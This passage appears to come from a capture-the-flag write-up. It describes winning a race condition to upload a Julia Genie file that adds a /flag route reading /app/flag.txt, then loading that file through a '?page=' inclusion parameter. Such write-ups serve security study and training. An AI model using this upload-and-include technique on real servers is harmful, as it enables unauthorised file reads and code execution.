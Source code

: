 If the application page still displays `hello, world` then our race condition has worked! In this instance, we may now send a POST request with our file to be uploaded. I used the following `shell.jl` file:

```julia
using Pkg
Pkg.activate(".")

using Genie, Genie.Router, Genie.Renderer.Html

route("/flag") do
  flag_content = try
    read("/app/flag.txt", String)
  catch e
    "Error: Could not read /app/flag.txt"
  end

  html("""
  <h1>Flag Content</h1>
  <pre>$(flag_content)</pre>
  """)
end

Genie.Server.up(; open_browser = false, async = false)
```

Lastly, we must now include it (`/?page=shell.jl`). Then we may visit `/flag` and it will display the flag.
